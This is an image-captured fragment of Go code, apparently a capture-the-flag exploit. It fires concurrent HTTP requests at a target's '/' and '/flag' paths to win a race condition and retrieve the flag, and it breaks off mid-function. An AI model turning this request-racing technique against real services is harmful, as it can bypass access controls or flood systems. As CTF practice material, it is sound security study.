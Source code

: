 ```go{15-35}
    go func() {
       for {
          limiter1 <- struct{}{}
          go func() {
             if SendSlash() {
                os.Exit(0)
             }
          }()
          <-limiter1
          limiter1 <- struct{}{}
          go func() {
             if SendSlash() {
                os.Exit(0)
             }
          }()
          <-limiter1
          <-limiter2
       }
    }()
    var i = 0
    go func() {
       for {
          limiter2 <- struct{}{}
          i++
          fmt.Println("try", i)
          go func() {
             if SendFlag() {
                os.Exit(0)
             }
          }()
       }
    }()
    select {}
}

func SendSlash() bool {
    get, err := http.Get(url + "/")
    if err != nil {
       log.Println(err)
    }
    if get != nil {
       defer get.Body.Close()
       return checkBody(get.Body)
    }
    return false
}

func SendFlag() bool {
    get, err := http.Get(url + "/flag")
    if err != nil {
       log.Println(err)
    }
    if get != nil {
       defer get.Body.Close()
       return checkBody(get.Body)
    }
    return false
}

func checkBody(rd io.Reader) bool {
    data, _ := io.ReadAll(rd)
    if data == nil {
       return false
```